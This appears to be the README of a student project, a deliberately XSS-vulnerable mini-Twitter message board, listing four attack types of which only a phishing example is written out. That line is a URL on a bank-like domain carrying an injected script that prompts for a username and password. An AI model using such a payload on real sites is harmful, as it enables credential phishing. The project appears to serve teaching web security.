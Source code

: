 # XSS-Vunerable-Board
A vunerable Messaging board like a mini-Twitter application.
By Hitesh, Pranati and Saumya.

Attack Scripts:
1. Reflected Attack:
2. Online SBI @Posts:
3. DOM Attack:
4. Phising Attack:
http://freebankonline.com/banklogin.asp?err=<script>username=prompt('Please enter your username',' '); password=prompt('Please enter your password',' '); alert("username="+username+" and password="+password);</script>
